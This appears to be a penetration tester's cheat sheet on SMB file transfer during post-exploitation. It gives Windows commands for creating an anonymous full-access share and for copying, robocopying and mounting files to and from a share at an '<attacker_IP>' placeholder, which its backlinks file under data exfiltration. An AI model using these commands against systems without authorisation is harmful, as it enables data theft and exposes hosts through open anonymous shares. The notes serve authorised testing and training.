 # SMB

## 01 - Server Setup

### 1.1 - Comand Prompt

Create an anonymous SMB share.

```
C:\> md "<drive_letter>:\path\to\directory\" 

C:\> net.exe share <share_name>="<drive_letter>:\path\to\directory\" /grant:Everyone,FULL /grant:Guests,FULL /grant:"Anonymous Logon",FULL
```

To remove the SMB share.

```
C:\> net.exe share <share_name> /delete
```

### 1.2 - Powershell

Create an anonymous SMB share.

```
PS C:\> New-Item "<drive_letter>:\path\to\directory\" -ItemType Directory

New-SmbShare -Name "<share_name>" -Path "<drive_letter>:\path\to\directory\" -FullAccess "Everyone","Guests","Anonymous Logon"
```

To remove the SMB share.

```
PS C:\> Remove-SmbShare -Force -Name "<share_name>"
```

## 02 - Usage

### 2.1 - Command Prompt

List the files to check if the share is accessible.

```
C:\> dir \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xI - Operating System/Kernel/Manual/Living off the Land|system and kernel version]] phase.

```
C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>
```

You can mount the share remotely.

> [!INFO] Error Message
> The message is self-explanatory. Just specify username and password on the server side and it'll work just fine.
> 
> ```
> System error 1272 has occurred.
> 
> You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
> ```

```
C:\> net.exe use \\<attacker_IP>\<share_name> [/user:<username> <password>]

C:\> net.exe use <drive_letter>: \\<attacker_IP>\<share_name> [/user:<username> <password>]
```

To unmount the share network.

```
C:\> net.exe use /delete \\<attacker_IP>\<share_name>

C:\> net.exe use <drive_letter>: /delete
```

### 2.2 - PowerShell

List the files to check if the share is accessible.

```
PS C:\> Get-ChildItem \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
PS C:\> Copy-Item \\<attacker_IP>\<share_name>\<source> <destination>
```

You can mount the share remotely. Pass the credentials if required.

```powershell
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force

$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)

New-PSDrive -Name <drive_letter> -PSProvider FileSystem -Root "\\<attacker_IP>\<share_name>" [-Credential $credential]
```

To unmount the share network.

```
PS C:\> Remove-PSDrive -Name <drive_letter>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Protocols/SMB]]

### Chris Titus

- [Chris Titus: Robocopy](https://www.christitus.com/robocopy)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)
